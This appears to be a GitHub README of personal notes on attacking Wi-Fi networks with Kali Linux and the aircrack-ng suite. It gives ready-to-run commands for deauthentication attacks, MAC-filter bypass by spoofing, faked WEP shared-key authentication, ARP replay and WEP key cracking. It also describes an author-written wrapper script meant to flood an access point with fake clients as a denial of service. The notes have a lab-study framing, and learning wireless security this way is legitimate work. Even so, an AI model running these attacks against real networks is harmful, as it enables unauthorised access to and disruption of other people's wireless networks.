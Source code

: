 # Wireless Basics in Kali Linux

*ip link* to view the wireless devices and confirm the card has been detected

*iw dev ap stop/start* start or stop an access point - verify by running *ip link* and look for *UP*

*ip link set <device> up/down* e.g. *ip link set wlan0 up* - bring wireless card up

*airmon-ng* to verify it detects the card

*airmon-ng check* to check for proccesses that could cause trouble

*airmon-ng check kill* to kill those processes

*airmon-ng start/stop <device>* to put device in monitor mode - check with *airmon-ng*

*service NetworkManager start* to restart the network manager (got killed by airmon-ng)

*service wpa_supplicant start* to restart the wpa supplicant (got killed by aimon-ng)

# Find out hidden SSID

1. Wait for legitimate ProbeRequest and read out SSID or

2. Find out MAC-Address and launch a deauthentication attack to force the clients to reconnect and send a Probe Package. *sudo aireplay-ng -0 5 -a 3C:84:6A:DF:AB:7C --ignore-negative wlan0mon*.
*-0* is the deathtentication attack, 5 is the number of deauthentication packets to send and -a specifies the MAC address.

3. Put this filter in Wireshark to see all the non-Beacon traffic going to and from the access point:
*(wlan.bssid == <MAC>) && !(wlan.fc.type_subtype == 0x08)*

# Orient in Network + find out MAC and Device type
*sudo airodump-ng wlan0mon* - captures current networks and clients in the area, requires mon mode

Navigate through the different filters by pressing the key *a*. To look up a device e.g. go to *sta only* and then copy the first 3 hex fields e.g. "E8:FD:F8" and paste it into *https://www.wireshark.org/tools/oui-lookup.html*, in this case it says Shanghai High-Flying Electronics Technology Co., Ltd.

In Airodump press *TAB* to select a certain AP and then the arrow keys to navigate. Now press *m* to mark certain AP with a color. Now all the clients connected to this AP have the same color as well.

*s* key to sort by attributes like signal strength or MAC addr.

*sudo airodump-ng wlan0mon -w output* to create multiple output files to analyze

# Airgraph-ng - Visualize Network Topology captured by Airdump-ng

Run *sudo airgraph-ng -i test-01.csv -o capture.png -g CAPR* to pass the file *test-01.csv* into airgraph-ng and put the output in *capture.png*. -g is the type of the graph output, in this case client access point relationship.

Other options are *-g CPG* for common probe graph to see probe requests

# How to beat MAC Filters

run airodump-ng to find a whitlisted MAC and spoof it. 

*sudo airodump-ng -c 3 -a --bssid 3C:84:6A:DF:AB:7C wlan0mon* -> found: A8:93:4A:F2:C1:7D 

*sudo ifconfig wlan0 down*

run *sudo macchanger -m A8:93:4A:F2:C1:7D wlan0* to change the MAC and connect to the network

*sudo ifconfig wlan0 up* again, *sudo iwconfig wlan0 essid "Wireless Lab"* -> check if it works by running iwconfig wlan0

# Bypass Shared Authentication

Sniff packets between AP and client: 

sudo airodump-ng wlan0mon --bssid 3C:84:6A:DF:AB:7C --channel 11 --write keystream

Either wait for them to connect to the AP or force a reconnect.
Then there should be something in the AUTH column of the airodump window, for me it was "SKA", the reference book states "WEP" should be there. 

After we collected the shared authentication exchange we can run 
*sudo aireplay-ng -1 0 -e "Wireless Lab" -y keystream-01-3C-84-6A-DF-AB-7C.xor -a 3C:84:6A:DF:AB:7C -h AA:AA:AA:AA:AA:AA wlan0mon* to fake the shared authentication and connect to the client.

Also I coded a wrapper for the aireplay-ng programm to run this bypass multiple times with randomly generated SSIDs. When the client count is reached, the AP won't accept new clients essentially ddosing the AP.
To run the script follow these commands:
*chmod +x ddoswrapper.sh* making the script executable
*sudo ./ddoswrapper.sh --ssid "AA:AA:AA:AA:AA:AA" --attempts 100* default attempts are 50.
Have fun :D

# How to crack WEP

run *airodump-ng wlan0mon* to find out the MAC address of the target router and the channel its operating in. 

Then run *sudo airodump-ng -c 3 -a --bssid 3C:84:6A:DF:AB:7C wlan0mon --write WEPDemo* with -c set to the channel, in this case 11 and bssid to the MAC of the router.

Now connect to the router with fake authentication or wait till someone else does, because the access point will only accept packets from associated clients. airodump-ng should show the connected client(s). Never worked with that?

Replay ARP packets using*sudo aireplay-ng -3 -b 3C:84:6A:DF:AB:7C -h a8:93:4a:f2:c1:7d --ignore-negative-one wlan0mon* -h is one of the associated clients of the AP b is the MAC of the AP.

Now just run *aircrack-ng WEPDemo-02.cap* to crack the key using the data collected by airodump-ng. This depends on the network speed and the key strength but shouldn't take much longer then 5-10 minutes.








